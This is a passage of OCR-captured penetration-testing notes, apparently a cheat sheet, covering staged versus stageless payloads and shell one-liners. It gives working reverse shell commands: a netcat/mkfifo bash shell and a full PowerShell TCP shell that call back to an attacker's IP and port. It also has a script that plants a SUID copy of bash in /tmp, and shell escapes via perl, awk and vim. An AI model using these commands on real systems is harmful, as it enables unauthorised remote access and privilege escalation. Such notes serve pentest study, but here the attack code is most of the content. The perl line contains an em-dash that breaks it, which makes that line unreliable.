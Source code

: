   ```
`Staged` payloads create a way for us to send over more components of our attack

Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a `stageless` payload. Stageless payloads can sometimes be better for evasion purposes.

### One liners

- **Netcat/Bash**

  ```
  rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [YOUR_IP] [PORT] > /tmp/f
  ```

- **Poweshell**

  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[YOUR IP]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

- **Bash**

  ```bash
  /bin/sh -i
  ```

  Copies bash, give SUID priviliges,

  ```bash
  echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/exp\nchmod 4777 /tmp/exp' > file_to_execute
  ```

  - Perl:

    ```bash
    perl —e 'exec "/bin/sh";'
    ```

  - Same for ruby or lua

  - AWK

    ```bash
    awk 'BEGIN {system("/bin/sh")}'
    ```

  - Vim

    ```bash
    vim -c ':!/bin/sh'
    ```

    

